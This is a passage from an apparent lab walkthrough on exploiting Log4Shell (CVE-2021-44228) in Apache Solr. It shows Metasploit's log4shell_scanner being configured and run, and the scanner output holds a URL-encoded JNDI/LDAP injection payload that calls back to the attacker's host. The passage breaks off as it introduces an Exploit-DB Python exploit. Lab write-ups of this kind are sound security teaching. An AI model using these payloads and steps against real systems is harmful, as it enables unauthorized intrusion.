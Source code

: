    THREADS       1                                                                                           yes       The number of concurrent threads (max one per host)
   URIS_FILE     /opt/metasploit-framework/embedded/framework/data/exploits/CVE-2021-44228/http_uris.txt     no        File containing additional URIs to check
   VHOST                                                                                                     no        HTTP server virtual host

msf6 auxiliary(scanner/http/log4shell_scanner) > @@set RHOSTS 10.6.6.25@@
RHOSTS => 10.6.6.25
msf6 auxiliary(scanner/http/log4shell_scanner) > @@set RPORT 8983@@
RPORT => 8983
{% endhighlight %}

To instruct the Metasploit module to scan the target web server, we set the RHOSTS and RPORT parameters to `10.6.6.25` and `8983`. In addition, we should set the SRVHOST parameter to our IP address from the perspetive of the target host. We can find this IP address using the `ip a` command.

{% highlight none linenos %}
┌──(kali㉿kali)-[~]
└─$ @@ip a@@
[...]
4: @@@docker0@@@: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:46:08:dc:e2 brd ff:ff:ff:ff:ff:ff
    inet @@@172.17.0.1@@@/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
[...]
{% endhighlight %}

Once we have set the three parameters appropriately, we can launch the scanner by executing `run`.

{% highlight none linenos %}
msf6 auxiliary(scanner/http/log4shell_scanner) > @@set SRVHOST 172.17.0.1@@
SRVHOST => 172.17.0.1
msf6 auxiliary(scanner/http/log4shell_scanner) > @@run@@

[+] 10.6.6.25:8983        - @@@Log4Shell found via /solr/admin/cores?action=CREATE&wt=json&name=%24%7bjndi%3aldap%3a/172.17.0.1%3a389/jcrugbdc1jb0omq2sw0fjc6thh0yk/%24%7bjava%3aos%7d/%24%7bsys%3ajava.vendor%7d_%24%7bsys%3ajava.version%7d%7d (os: Linux 5.15.0-kali3-amd64 unknown, architecture: amd64-64) (java: Oracle Corporation_1.8.0_102)@@@
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[*] Server stopped.
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/log4shell_scanner) >
{% endhighlight %}

The scanner identifies the vulnerability in the `name` parameter of the `/solr/admin/cores` endpoint. The next step is to find and configure an appropriate exploit.

![findingExploitdb](/assets/{{ imgDir }}/findingExploitdb.png)

Searching for an exploit in Exploit-DB leads us to a [Python exploit](https://www.exploit-db.com/exploits/50592). A slightly modified version of the exploit is shown below. In this version, some formatting has been performed concerning line breaks and indentation. In addition, some comments have been removed for brevity.
